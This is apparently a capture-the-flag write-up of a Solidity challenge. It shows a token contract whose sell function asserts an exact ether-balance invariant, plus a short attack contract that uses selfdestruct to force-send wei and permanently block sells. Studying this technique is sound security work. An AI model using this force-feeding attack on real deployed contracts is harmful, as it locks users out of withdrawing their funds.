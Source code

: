 # Challenge 01: Classic one tbh

## Challenge

We are provided with one contract and it's address. 

```solidity
pragma solidity 0.8.17;

contract  hero2303
 {
    mapping (address => uint256) private userBalances;

    uint256 public constant TOKEN_PRICE = 1 ether;
    string public constant name = "UNDIVTOK";
    string public constant symbol = "UDK";
    
    uint8 public constant decimals = 0;

    uint256 public totalSupply;

    function buy(uint256 _amount) external payable {
        require(
            msg.value == _amount * TOKEN_PRICE, 
            "Ether submitted and Token amount to buy mismatch"
        );

        userBalances[msg.sender] += _amount;
        totalSupply += _amount;
    }

    function sell(uint256 _amount) external {
        require(userBalances[msg.sender] >= _amount, "Insufficient balance");

        userBalances[msg.sender] -= _amount;
        totalSupply -= _amount;

        (bool success, ) = msg.sender.call{value: _amount * TOKEN_PRICE}("");
        require(success, "Failed to send Ether");

        assert(getEtherBalance() == totalSupply * TOKEN_PRICE);
    }

    function transfer(address _to, uint256 _amount) external {
        require(_to != address(0), "_to address is not valid");
        require(userBalances[msg.sender] >= _amount, "Insufficient balance");
        
        userBalances[msg.sender] -= _amount;
        userBalances[_to] += _amount;
    }

    function getEtherBalance() public view returns (uint256) {
        return address(this).balance;
    }

    function getUserBalance(address _user) external view returns (uint256) {
        return userBalances[_user];
    }
}
```

The goal is to make everyone unabkle from calling the sell function.

## Solution

The solution is pretty easy. The sell function checks for the balance being the exact value of the tokens.

```
assert(getEtherBalance() == totalSupply * TOKEN_PRICE);
```

The contract should be safe from this ever deferring, but the developer forgot that you can always force feed a contract using selfdestruct. I just implemented an easy attack which sent one wei to the contract and was done.

```solidity
pragma solidity 0.8.17;

contract Attack {
    function attack(address payable addr) public payable {
        selfdestruct(addr);
    }
}
```

Flag: Hero{S4m3_aS_USU4L_bUT_S3eN_IRL??!}